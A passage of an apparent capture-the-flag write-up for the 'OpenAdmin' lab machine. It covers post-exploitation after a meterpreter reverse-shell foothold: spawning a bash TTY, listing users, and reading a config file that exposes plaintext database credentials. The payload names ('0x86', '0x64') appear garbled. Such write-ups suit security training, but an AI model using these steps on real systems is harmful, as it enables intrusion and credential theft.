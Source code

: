 NOTE: the opennetadmin did not work for me in first because it was by default the reverse_tcp payload is set to 0x86. so you should change to linux/0x64/meterpreter/reverse_tcp to works fine.
----------------------------------------------------------------------------------------------------------------------------------------------------------------------------
### [](#header-3)3- Post Exploitation to - USER 1 (jimmy)

the first thing after get meterpeter is that i used shell command. and spawning the shell in bash to get good bash terminal.

```
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
ls
config
config_dnld.php
dcm.php
images
include
index.php
local
login.php
logout.php
modules
plugins
winc
workspace_plugins

python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@openadmin:/opt/ona/www$ 
```

first lets check the home directory to see the users there.

```
www-data@openadmin:/opt/ona/www$ ls -la /home
ls -la /home
total 16
drwxr-xr-x  4 root   root   4096 Nov 22 18:00 .
drwxr-xr-x 24 root   root   4096 Nov 21 13:41 ..
drwxr-x---  6 jimmy  jimmy  4096 Feb 14 13:35 jimmy
drwxr-x---  6 joanna joanna 4096 Nov 28 09:37 joanna
www-data@openadmin:/opt/ona/www$ 
```

so we have jimmy and joanna. so after doing some enumuration in ona application i found file that have the username and password for the ona database.
```
www-data@openadmin:/opt/ona/www$ cat ./local/config/database_settings.inc.php
cat ./local/config/database_settings.inc.php
<?php

$ona_contexts=array (
  'DEFAULT' => 
  array (
    'databases' => 
    array (
      0 => 
      array (
        'db_type' => 'mysqli',
        'db_host' => 'localhost',
        'db_login' => 'ona_sys',
        'db_passwd' => 'n1nj4W4rri0R!',
        'db_database' => 'ona_default',
        'db_debug' => false,
      ),
    ),
    'description' => 'Default data context',
```
